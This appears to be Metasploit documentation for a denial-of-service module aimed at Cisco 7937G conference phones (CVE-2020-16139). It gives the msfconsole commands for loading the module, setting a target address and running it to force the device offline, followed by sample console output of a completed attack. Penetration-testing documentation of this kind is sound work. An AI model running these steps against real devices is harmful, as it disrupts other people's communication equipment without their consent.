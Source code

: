 ## Vulnerable Application

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/cisco/CVE-2020-16139`
  3. Do: `set RHOST 192.168.1.10`
  4. Do: `run`
  5. The conference station should become inoperable and then power cycle itself.

## Options

  1. rhost (required) - Target address

## Scenarios

Because both successful and unsuccessful attacks result in the request timing out, there
is no way to be sure that the attack was completed. It is recommended to attempt a ping
to the device immediately afterward to verify device is offline/reseting.

```
[*] Starting server...
[*] 192.168.110.209 - Sending DoS packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
